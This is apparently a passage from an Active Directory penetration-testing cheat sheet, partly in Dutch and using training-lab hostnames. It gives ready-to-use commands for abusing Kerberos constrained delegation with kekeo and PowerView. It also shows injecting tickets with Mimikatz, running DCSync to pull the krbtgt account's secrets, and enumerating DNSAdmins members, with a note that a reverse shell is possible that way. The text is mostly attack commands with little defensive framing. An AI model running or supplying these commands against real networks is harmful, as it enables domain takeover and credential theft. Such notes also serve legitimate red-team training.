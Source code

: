 #### Enumerate computers with contrained delegation enabled
```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```
### Constrained delegation User
#### Requesting TGT with kekeo
```
./kekeo.exe
Tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
```

#### Requesting TGS with kekeo
```
Tgs::s4u /tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
```

#### Use Mimikatz to inject the TGS ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

### Constrained delegation Computer
#### Requesting TGT with a PC hash
```
./kekeo.exe
Tgt::ask /user:dcorp-adminsrv$ /domain:<domain> /rc4:<hash>
```

#### Requesting TGS
No validation for the SPN specified
```
Tgs::s4u /tgt:<kirbi file> /user:Administrator@<domain> /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

#### Using mimikatz to inject TGS ticket and executing DCsync
```
Invoke-Mimikatz -Command '"Kerberos::ptt <kirbi file>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<shortdomain>\krbtgt"'
```

## DNS Admins
Indien je over een gebruiker bezit die lid is van de 'DNS admin' is het mogelijk om verschillende aanvallen uit te voeren op de DNS server (Meestal Domain Controller) Het is mogelijk om hier een reverse shell mee te krijgen, maar dit legt heel het DNS verkeer plat binnen het domein aangezien dit de DNS service bezighoudt! Voor meer informatie zie [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise]
#### Enumerate member of the DNS admin group
```
Get-NetGRoupMember “DNSAdmins”
```
